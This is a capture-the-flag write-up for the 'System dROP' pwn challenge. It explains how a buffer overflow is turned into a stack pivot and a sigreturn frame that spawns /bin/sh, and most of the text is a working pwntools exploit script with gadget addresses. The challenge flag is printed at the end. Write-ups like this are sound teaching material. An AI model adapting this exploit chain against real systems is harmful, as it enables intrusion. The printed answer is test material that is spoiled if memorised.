 # System dROP

## Challenge

We're given a small binary with few useful functions or gadgets, but it is vulnerable to a buffer overflow and contains a syscall gadget.

### Mitigations

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

## Solution

We don't have functions we can use to leak addressed, but there is no PIE so the address of the binary is known.

We can use the buffer overflow to pivot the stack into the data section of the binary.
From here we can write the `"/bin/sh\x00"` string into a known location in memory, then write a sigreturn frame to set the registers needed to `execve("/bin/sh\x00", NULL, NULL)` and spawn a shell.

## Exploit

```py
#!/usr/bin/env python
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template --host localhost --port 1337 system_drop
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF('system_drop')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141
host = args.HOST or 'localhost'
port = int(args.PORT or 1337)

def local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return local(argv, *a, **kw)
    else:
        return remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:    Partial RELRO
# Stack:    No canary found
# NX:       NX enabled
# PIE:      No PIE (0x400000)

io = start()

data = 0x601100
read = exe.sym["read"]
rsi_r15 = 0x00000000004005d1
rsp_r13_r14_r15 = 0x00000000004005cd
rdi = 0x00000000004005d3
syscall = 0x000000000040053b

frame = SigreturnFrame(kernel="amd64")
frame.rax = constants.SYS_execve
frame.rdi = data
frame.rsi = 0
frame.rdx = 0 
frame.rip = syscall

payload = flat({
    0x20 + 8: [
        rsi_r15,
        data + 0x100,
        0,
        read,
        rsi_r15,
        data,
        0,
        read,
        rsp_r13_r14_r15,
        data + 0x100 - (3 * 0x8),
        ],
    }).ljust(0x100, b'B')

io.send(payload)
print(len(payload))

io.info("writing frame")
framepayload = flat([
    syscall,
    frame
    ])
io.send(framepayload)
print(len(framepayload))

io.info("writing binsh + rax")
binsh = '/bin/sh\x00'.ljust(15, b'A')

io.send(binsh)

io.interactive()
```

## Flag

`CHTB{n0_0utput_n0_pr0bl3m_w1th_sr0p}`

